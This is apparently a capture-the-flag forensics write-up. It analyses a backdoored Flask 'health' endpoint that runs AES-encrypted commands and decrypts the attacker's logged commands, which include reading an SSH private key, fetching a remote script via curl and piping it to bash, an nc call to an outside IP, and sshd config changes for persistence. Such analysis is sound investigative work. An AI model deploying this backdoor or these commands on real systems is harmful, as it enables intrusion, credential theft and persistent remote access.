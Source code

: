 In our newly-obtained archive, we can find an egg file.

Eggfile are basicly python files zipped, so i renamed it "file.zip" and unzipped it.

After reading the source code, i found this code which seems... Interesting.

```python
class Health(Resource):
    """
    Handles requests that are coming for client to post the application data.
    """

    def get(self):
        try:
            with open("/data/flag.txt", "r") as handle:
                dskey = handle.read().replace("\n", "")
            data = request.args.get("cmd")
            if data:
                aes = AES.new(dskey.encode(), AES.MODE_ECB)
                cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
                result = subprocess.getoutput(cmd)
                if not isinstance(result, bytes): result = str(result).encode()
                result = base64.b64encode(aes.encrypt(pad(zlib.compress(result), 32))).decode()        
                return result, 200
        except Exception as e:
            return str(e), 501
```

Basically, it uses the cmd parameter to execute a command, and then returns its output.
Also, it's encrypted using ECB, with our flag as key.

The output is also encrypted and sent as a response.

That looks much like a persistance.

I know ECB isn't quite safe, but this isn't a crypto chall, so i hope i won't have to mess with it !
Data/flag.txt is probably the flag we found on our previous archive, i hope...

So, let's look in logs for requests containing the Get argument "cmd".

I also found its route:
```python
# Client API's only accesible through Auth Token.
api.add_resource(Status, '/api/v1/cav/client/status')
api.add_resource(Health, '/api/v1/cav/client/health')
api.add_resource(AuthToken, '/api/v1/cav/client/auth_token')
```

I saw some requests inside the logs:
```python
GET /api/v1/cav/client/health?cmd=DjrB3j2wy3YJHqXccjkWidUBniQPmhTkHeiA59kIzfA%3D
GET /api/v1/cav/client/health?cmd=K/a6JKeclFNFwnqrFW/6ENBiq0BnskUVoqBf4zn3vyQ%3D
GET /api/v1/cav/client/health?cmd=/ppF2z0iUCf0EHGFPBpFW6pWT4v/neJ6wP6dERUuBM/6CAV2hl/l4o7KqS7TvTZAWDVxqTd6EansrCTOAnAwdQ%3D%3D
GET /api/v1/cav/client/health?cmd=Lmrbj2rb7SmCkLLIeBfUxTA2pkFQex/RjqoV2WSBr0EyxihrKLvkqPKO3I7KV1bhm8Y61VzkIj3tyLKLgfCdlA%3D%3D
GET /api/v1/cav/client/health?cmd=yPfHKFiBi6MxfKlndP99J4eco1zxfKUhriwlanMWKE3NhhHtYkSOrj4QZhvf6u17fJ%2B74TvmsMdtYH6pnvcNZOq3JRu2hdv2Za51x82UYXG1WpYtAgCa42dOx/deHzAlZNwM7VvCZckPLfDeBGZyLHX/XP4spz4lpfau9mZZ%2B/o%3D
 GET /api/v1/cav/client/health?cmd=E1Wi18Bo5mPNTp/CaB5o018KdRfH2yOnexhwSEuxKWBx7%2Byv4YdHT3ASGAL67ozaoZeUzaId88ImfFvaPeSr6XtPvRqgrLJPl7oH2GHafzEPPplWHDPQQUfxsYQjkbhT
 GET /api/v1/cav/client/health?cmd=7JPshdVsmVSiQWcRNKLjY1FkPBh91d2K3SUK7HrBcEJu/XbfMG9gY/pTNtVhfVS7RXpWHjLOtW01JKfmiX/hOJQ8QbfXl2htqcppn%2BXeiWHpCWr%2ByyabDservMnHxrocU4uIzWNXHef5VNVClGgV4JCjjI1lofHyrGtBD%2B0nZc8%3D
GET /api/v1/cav/client/health?cmd=WzAd4Ok8kSOF8e1eS6f8rdGE4sH5Ql8injexw36evBw/mHk617VRAtzEhjXwOZyR/tlQ20sgz%2BJxmwQdxnJwNg%3D%3D
GET /api/v1/cav/client/health?cmd=G9QtDIGXyoCA6tZC6DtLz89k5FDdQNe2TfjZ18hdPbM%3D
GET /api/v1/cav/client/health?cmd=QV2ImqgrjrL7%2BtofpO12S9bqgDCRHYXGJwaOIihb%2BNI%3D
```
Okay, time to decode !

I'll use the same script, why would i bother :)

Here it is:
```python
import base64
import subprocess
import zlib
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad, unpad
from flask import request

requests=[
    "DjrB3j2wy3YJHqXccjkWidUBniQPmhTkHeiA59kIzfA=",
    "K/a6JKeclFNFwnqrFW/6ENBiq0BnskUVoqBf4zn3vyQ=",
    "/ppF2z0iUCf0EHGFPBpFW6pWT4v/neJ6wP6dERUuBM/6CAV2hl/l4o7KqS7TvTZAWDVxqTd6EansrCTOAnAwdQ==",
    "Lmrbj2rb7SmCkLLIeBfUxTA2pkFQex/RjqoV2WSBr0EyxihrKLvkqPKO3I7KV1bhm8Y61VzkIj3tyLKLgfCdlA==",
    "yPfHKFiBi6MxfKlndP99J4eco1zxfKUhriwlanMWKE3NhhHtYkSOrj4QZhvf6u17fJ+74TvmsMdtYH6pnvcNZOq3JRu2hdv2Za51x82UYXG1WpYtAgCa42dOx/deHzAlZNwM7VvCZckPLfDeBGZyLHX/XP4spz4lpfau9mZZ+/o=",
    "E1Wi18Bo5mPNTp/CaB5o018KdRfH2yOnexhwSEuxKWBx7+yv4YdHT3ASGAL67ozaoZeUzaId88ImfFvaPeSr6XtPvRqgrLJPl7oH2GHafzEPPplWHDPQQUfxsYQjkbhT",
    "7JPshdVsmVSiQWcRNKLjY1FkPBh91d2K3SUK7HrBcEJu/XbfMG9gY/pTNtVhfVS7RXpWHjLOtW01JKfmiX/hOJQ8QbfXl2htqcppn+XeiWHpCWr+yyabDservMnHxrocU4uIzWNXHef5VNVClGgV4JCjjI1lofHyrGtBD+0nZc8=",
    "WzAd4Ok8kSOF8e1eS6f8rdGE4sH5Ql8injexw36evBw/mHk617VRAtzEhjXwOZyR/tlQ20sgz+JxmwQdxnJwNg==",
    "G9QtDIGXyoCA6tZC6DtLz89k5FDdQNe2TfjZ18hdPbM=",
    "QV2ImqgrjrL7+tofpO12S9bqgDCRHYXGJwaOIihb+NI="
]

with open("flag.txt", "r") as handle:
    dskey = handle.read().replace("\n", "")

    for data in requests:    
        if data:
            aes = AES.new(dskey.encode(), AES.MODE_ECB)
            cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
            print(cmd)
```

And the output i've got, including a flag !
```bash
b'id'
b'ls /'
b'echo FCSC{6cd63919125687a10d32c4c8dd87a5d0c8815409}'
b'cat /data/runtime/etc/ssh/ssh_host_rsa_key'
b'/home/bin/curl -k -s https://api.github.com/repos/joke-finished/2e18773e7735910db0e1ad9fc2a100a4/commits?per_page=50 -o /tmp/a'
b'cat /tmp/a | grep "name" | /pkg/uniq | cut -d ":" -f 2 | cut -d \'"\' -f 2 | tr -d \'\n\' | grep -o . | tac | tr -d \'\n\'  > /tmp/b'
b'a=`cat /tmp/b`;b=${a:4:32};c="https://api.github.com/gists/${b}";/home/bin/curl -k -s ${c} | grep \'raw_url\' | cut -d \'"\' -f 4 > /tmp/c'
b'c=`cat /tmp/c`;/home/bin/curl -k ${c} -s | bash'
b'rm /tmp/a /tmp/b /tmp/c'
b'nc 146.0.228.66:1337'
```

Also, i ran the commands (without executing them with bash), and here's what i found:
```bash
sed -i 's/port 830/port 1337/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
sed -i 's/ForceCommand/#ForceCommand/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
echo "PubkeyAuthentication yes" >> /data/runtime/etc/ssh/sshd_server_config
echo "AuthorizedKeysFile /data/runtime/etc/ssh/ssh_host_rsa_key.pub" >> /data/runtime/etc/ssh/sshd_server_config
pkill sshd-ive > /dev/null 2>&1
gzip -d /data/pkg/data-backup.tgz > /dev/null 2>&1
tar -rf /data/pkg/data-backup.tar /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
gzip /data/pkg/data-backup.tar > /dev/null 2>&1
mv /data/pkg/data-backup.tar.gz /data/pkg/data-backup.tgz > /dev/null 2>&1
```

Might be useful for part 4, maybe.